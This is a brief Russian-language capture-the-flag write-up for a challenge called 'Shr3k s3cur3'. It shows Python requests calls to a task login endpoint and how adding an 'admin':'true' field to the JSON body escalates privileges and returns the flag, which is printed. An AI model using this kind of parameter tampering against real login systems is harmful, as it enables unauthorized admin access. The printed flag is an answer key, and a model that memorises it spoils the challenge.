

# Shr3k s3cur3



*Нужен json.. и еда. Нет, тебе не нужна еда. Нужен запрос, кажется, на этот адрес /task_3/login.. Ключи.. Ключи user и pswd. До скорого!*

```sh
$ python3
>> import requests as r 
>> r.post('http://46.254.20.217:1000/task_3/login', json={'user': "joka", 'pswd': 'boka'}).json()
{'Auth': 'You are not an admin, I will not give you a flag..'}
>> r.post('http://46.254.20.217:1000/task_3/login', json={'user': "joka", 'pswd': 'boka', 'admin':'true'}).json()
{'Auth': 'Whoa whoa, how did you do that? joka you kerj?', 'flag': '4hsl33p{s3t_tru3_to_w1n}'}
```

Так же хинт можно было найти в f12:

* *For admin set parameter admin to True*

Флаг - *4hsl33p{s3t_tru3_to_w1n}*